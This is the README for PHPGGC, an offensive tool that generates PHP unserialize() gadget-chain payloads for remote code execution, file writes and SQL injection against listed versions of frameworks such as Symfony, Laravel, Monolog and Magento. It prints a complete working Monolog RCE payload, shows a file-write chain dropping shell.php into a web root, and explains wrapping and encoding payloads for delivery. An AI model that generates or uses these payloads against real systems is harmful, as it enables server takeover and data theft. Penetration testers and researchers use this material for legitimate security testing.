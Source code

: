 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR        I    
Doctrine/FW1          ?                 file_write       __toString    *    
Guzzle/FW1            6.0.0 <= 6.3.0    file_write       __destruct         
Guzzle/RCE1           6.0.0 <= 6.3.0    rce              __destruct         
Laravel/RCE1          5.4.27            rce              __destruct         
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct         
Monolog/RCE1          1.18 <= 1.23      rce              __destruct         
Monolog/RCE2          1.5 <= 1.17       rce              __destruct         
Phalcon/RCE1          <= 1.2.2          rce              __wakeup      *    
Slim/RCE1             3.8.1             rce              __toString         
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString         
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString         
Symfony/RCE1          3.3               rce              __destruct    *    
Symfony/RCE2          2.3.42 < 2.5      rce              __destruct    *    
Symfony/RCE3          2.5 <= 2.8.32     rce              __destruct    *    
Yii/RCE1              1.1.19            rce              __destruct         
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct    *

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <code>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
Payloads often contain NULL bytes and cannot be copy/pasted as-is. Use `-s` for a soft URL encode, which keeps the payload readable.

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```
# /tmp/my_wrapper.php

function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 'phpinfo();'
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- Error-free payloads are prefered, as some websites exit abruptly even with E_NOTICE errors
- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
